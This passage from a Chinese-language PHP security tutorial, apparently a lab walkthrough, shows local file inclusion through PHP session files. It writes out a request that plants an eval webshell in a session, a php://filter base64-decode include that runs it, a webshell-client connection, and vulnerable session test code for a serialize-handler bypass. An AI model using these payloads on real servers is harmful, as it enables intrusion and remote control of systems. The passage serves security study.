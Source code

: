 ```
http://192.33.6.145/FI/session/session.php

POST：
username=qftmqftmqftmqftmqftmqftmqftmqftmqftmqftmqftmqftm&lt;?php eval($_POST['mtfq']);?&gt;
```

[![](https://p2.ssl.qhimg.com/t017115bc0983d380f4.png)](https://p2.ssl.qhimg.com/t017115bc0983d380f4.png)

然后构造payload包含恶意session

```
http://192.33.6.145/FI/index.php?file=php://filter/convert.base64-decode/resource=/var/lib/php/sessions/sess_qfg3alueqlubqu59l822krh5pl

POST：
mtfq=phpinfo();
```

[![](https://p5.ssl.qhimg.com/t01bf7a2f5d8b335464.png)](https://p5.ssl.qhimg.com/t01bf7a2f5d8b335464.png)

从相应结果中可以看到，在PHP默认的会话处理模式`serialize_handler=php`下，我们这次构造的payload成功解析了，达到了预期的目的。

<a class="reference-link" name="Getshell"></a>**Getshell**

尝试蚁剑连接我们session中传入的恶意代码

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0116020796790f82da.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t014b7e9374dc4957a4.png)

从连接情况上看，后门代码的运行是正常的没有出现问题。

### <a class="reference-link" name="Bypass%20serialize_handler=php_serialize"></a>Bypass serialize_handler=php_serialize

看到这里可能有人会想上面默认处理的是`session.serialize_handler = php`这种模式，那么针对`session.serialize_handler = php_serialize`这种处理方式呢，答案是一样的，只要能构造出相应的`payload`满足恶意代码的正常解码就可以。

<a class="reference-link" name="%E6%B5%8B%E8%AF%95%E4%BB%A3%E7%A0%81"></a>**测试代码**

**session.php**

```
&lt;?php

    ini_set('session.serialize_handler', 'php_serialize');    
    session_start();
    $username = $_POST['username'];
    $_SESSION['username'] = base64_encode($username);
    echo "username -&gt; $username";

?&gt;
```
